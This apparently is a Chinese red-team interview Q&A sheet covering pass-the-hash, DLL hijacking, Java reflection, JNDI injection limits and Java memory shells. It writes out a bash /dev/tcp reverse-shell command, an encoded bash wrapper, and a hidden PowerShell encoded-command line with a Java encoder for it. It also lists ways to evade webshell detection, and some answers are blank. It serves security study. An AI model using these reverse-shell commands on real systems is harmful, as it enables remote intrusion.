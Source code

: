 Q：PTH 原理

Q：PTH 利用条件

### 红队方向之权限维持

Q：dll 劫持，dll 注入

## java 安全

Q：java 反射是什么
A：在程序运行时动态加载类并获取类的详细信息，从而操作类或对象的属性和方法，提高程序的灵活性。Java 本身是静态语言，但反射特性允许运行时动态修改类定义和属性等，达到了动态的效果

Q：java 反射可以做哪些事情
A：

Q：java 中反弹 shell 命令
A：java 中直接执行 bash -i >& /dev/tcp/ip/port 0>&1 会失败，因为有>符号，表示重定向，需要对其进行编码
bash -c {echo,base64 的 payload}|{base64,-d}|{bash,-i}
针对 Powershell 应该使用以下的命令
powershell.exe -NonI -W Hidden -NoP -Exec Bypass -Enc 特殊的 Base64
这个特殊的 Base64 和普通 Base64 不同，需要填充 0，算法如下

    public static String getPowershellCommand(String cmd) {
        char[] chars = cmd.toCharArray();
        List<Byte> temp = new ArrayList<>();
        for (char c : chars) {
            byte[] code = String.valueOf(c).getBytes(StandardCharsets.UTF_8);
            for (byte b : code) {
                temp.add(b);
            }
            temp.add((byte) 0);
        }
        byte[] result = new byte[temp.size()];
        for (int i = 0; i < temp.size(); i++) {
            result[i] = temp.get(i);
        }
        String data = Base64.getEncoder().encodeToString(result);
        String prefix = "powershell.exe -NonI -W Hidden -NoP -Exec Bypass -Enc ";
        return prefix + data;
    }

Q：Runtime.exec 加入黑名单还有什么方式执行命令
A：类似 JSP Webshell 免杀

大致方法有这些：使用基本的反射，ProcessImpl 和 ProcessBuilde，JDNI 和 LDAP 注入，TemplatesImpl，BCEL，BeansExpression，自定义 ClassLoader，动态编译加载，ScriptEngine，反射调用一些 native 方法，各种 EL（SPEL 和 Tomcat EL 等）

Q：RMI 和 LDAP 类型的 JNDI 注入分别在哪个版本限制（★）

A：RMI 的 JNDI 注入在 8u121 后限制，需要手动开启 com.sun.jndi.rmi.object.trustURLCodebase 属性  
LDAP 的 JNDI 注入在 8u191 后限制，需要开启 com.sun.jndi.ldap.object.trustURLCodebase 属性

Q：java 内存马的实现方式？

A：通过命令执行等方式动态注册一个新的 listener、filter 或者 servlet，从而实现命令执行等功能。通过 java 的 instrumentation 动态修改已有代码，进而实现命令执行等功能。
